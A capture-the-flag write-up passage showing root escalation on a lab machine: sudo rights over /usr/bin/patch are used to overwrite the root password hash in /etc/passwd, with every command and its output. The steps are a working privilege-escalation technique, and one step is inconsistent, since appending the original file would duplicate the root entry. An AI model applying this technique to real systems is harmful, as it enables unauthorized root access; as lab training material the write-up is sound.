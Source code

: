 As `heart`, I checked `sudo` permissions:

```shellscript
heart@broken:~$ sudo -l
Matching Defaults entries for heart on broken:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User heart may run the following commands on broken:
    (ALL) NOPASSWD: /usr/bin/patch
```

The `heart` user can run `/usr/bin/patch` as `root` without a password. The `patch` utility can be used to modify files based on a diff. I decided to use this to modify `/etc/passwd` and change the root user's password.

First, I generated a new password hash for `root` (e.g., for the password "password") using `openssl passwd -6 password` (or a similar method to get a SHA512 hash). Let's assume the generated hash is `new_root_hash`.

I then created a temporary file (`file2`) containing the desired new `/etc/passwd` entry for root, followed by the rest of the original `/etc/passwd` content.

```shellscript
heart@broken:~$ echo 'root:$6$lRnr9KxkjNRpdRvx$MhnlBoV4oD5F.BJUj0mWex9t241c7X6WWieqhQjLxkC0OFoAu7.xo/6W87Z7iELOtP0hF4x./ly9QkryOMeXK0:0:0:root:/root:/bin/bash' > file2
heart@broken:~$ cat /etc/passwd >> file2 # Append the rest of the original passwd content
```

*(Note: The provided log shows a slightly different approach where the entire `/etc/passwd` content is put into `file2` with the modified root line. Both achieve the same goal for `diff`.)*

Next, I created a diff file (`file.patch`) between the original `/etc/passwd` and my modified `file2`.

```shellscript
heart@broken:~$ diff -u /etc/passwd file2 > file.patch
```

Finally, I applied this patch to `/etc/passwd` using `sudo /usr/bin/patch`:

```shellscript
heart@broken:~$ sudo /usr/bin/patch /etc/passwd < file.patch
patching file /etc/passwd
```

This successfully updated the root user's password hash in `/etc/passwd`. I then switched to the root user using the new password.

```shellscript
heart@broken:~$ su root
Password: password # (using the new password)
root@broken:/home/heart# id
uid=0(root) gid=0(root) groups=0(root)
```

I obtained a root shell! I navigated to `/root` and retrieved the root flag.

```shellscript
root@broken:~# ls
flag.sh  r0otfl4g.sh
root@broken:~# cat r0otfl4g.sh
HMVPatchedyeah
```
